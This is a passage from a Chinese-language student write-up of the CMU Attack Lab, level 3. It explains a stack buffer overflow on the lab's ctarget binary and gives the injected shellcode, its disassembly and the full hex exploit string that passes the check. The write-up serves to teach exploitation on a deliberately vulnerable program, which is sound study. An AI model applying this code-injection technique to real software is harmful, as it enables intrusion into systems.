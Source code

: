 ```C
15 	printf("Touch3!: You called touch3(\"%s\")\n", sval);
16 	validate(3);
17 	} else {
18 	printf("Misfire: You called touch3(\"%s\")\n", sval);
19 	fail(3);
20 	}
21 exit(0);
22 }
```

touch3接收一个字符数组的起始指针，并且在内部条件分支中调用了一个hexmatch函数，该函数将用户的8位十六进制cookie值转换为一个8个元素的字符数组，与我们传入的字符数组比较（包含字符末尾的0），如果相同则返回1，即能够通过。

touch3的汇编代码地址为：

```assembly
00000000004018fa <touch3>:
```

因此我们解题思路如下：

1. 将缓冲区过度写，将getbuf的返回地址覆盖，跳转至缓冲区开头的机器代码
2. 机器代码完成的任务是将字符数组的起始地址保存至%rdi并且使用ret命令跳转
3. 需要将字符串保存在栈中。需要注意的是，touch3函数和hexmatch函数会继续调用栈空间，因此如果将字符串保存在缓冲区中，则很有可能在hexmatch调用时将字符串覆盖。因此需要将字符串保存在test函数的栈帧之中。

exploit code的书写思路与上一任务相仿。反汇编代码如下：

```assembly
level3.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	68 fa 18 40 00       	push   $0x4018fa
   5:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   c:	c3                   	ret    
```

其中将字符串放在了0x5561dca8，也就是返回地址后的字节中。最终结果通过如下：

```
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:68 FA 18 40 00 48 C7 C7 A8 DC 61 55 C3 35 39 62 39 39 37 66 61 00 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00 
```

## Part 2：Return-Oriented Programming
